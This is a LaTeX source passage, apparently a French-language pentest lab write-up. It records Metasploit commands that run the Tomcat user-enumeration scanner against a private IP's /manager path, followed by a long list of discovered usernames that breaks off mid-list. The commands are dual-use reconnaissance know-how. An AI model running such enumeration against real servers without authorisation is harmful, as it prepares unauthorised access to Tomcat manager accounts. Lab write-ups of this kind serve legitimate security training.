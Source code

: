 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
    \item D'abord, je vais chercher les noms d'utilisateur disponibles sur le services.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search tomcat scanner}
            \item \texttt{\footnotesize use auxiliary/scanner/http/tomcat\_enum}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8282}
            \item \texttt{\footnotesize set USER\_FILE /usr/share/wordlists/metasploit/unix\_users.txt}
            \item \texttt{\footnotesize set targeturi /manager}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est \textcolor{blue}{\textbf{très bon}} car j'ai trouvé des dizaines de logins.
        \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[+] http://192.168.1.4:8282/manager - Users found: , 4Dgifts, Debian-exim,
Debian-snmp, EZsetup, OutOfBox, ROOT, _apt, abrt, adm, admin, administrator,
anon, arpwatch, auditor, avahi, avahi-autoipd, backup, bbs, beef-xss, bin,
bitnami, checkfs, checkfsys, checksys, chronos, chrony, cmwlogin,
cockpit-ws, colord, couchdb, cups-pk-helper, daemon, dbadmin, dbus, demo,
demos, diag, distccd, dni, dnsmasq, dradis, fal, fax, ftp, games, gdm,
geoclue, gnats, gnome-initial-setup, gopher, gropher, guest, haldaemon, halt,
hplip, inetsim, informix, install, iodine, irc, jet, karaf, kernoops,
king-phisher, landscape, libstoragemgmt, libuuid, lightdm, list, listen, lp,
lpadm, lpadmin, lxd, lynx, mail, man, me, messagebus, miredo, mountfs,
mountfsys, mountsys, mysql, news, noaccess, nobody, nobody4, ntp, nuucp,
nxautomation, nxpgsql, omi, omsagent, operator, oracle, pi, polkitd,
pollinate, popr, postfix, postgres, postmaster, printer, proxy, pulse,
redsocks, rfindd, rje, root, rooty, rpc, rpcuser, rtkit, rwhod, saned,
service, setroubleshoot, setup, sgiweb, shutdown, sigver, speech-dispatcher,
sshd, sslh, sssd, stunnel4, sym, symop, sync, sys, sysadm, sysadmin, sysbin,
syslog, system_admin, systemd-bus-proxy, systemd-coredump, systemd-network,

\end{Verbatim}
\end{example}
\end{example}
\end{enumerate}
\end{document}
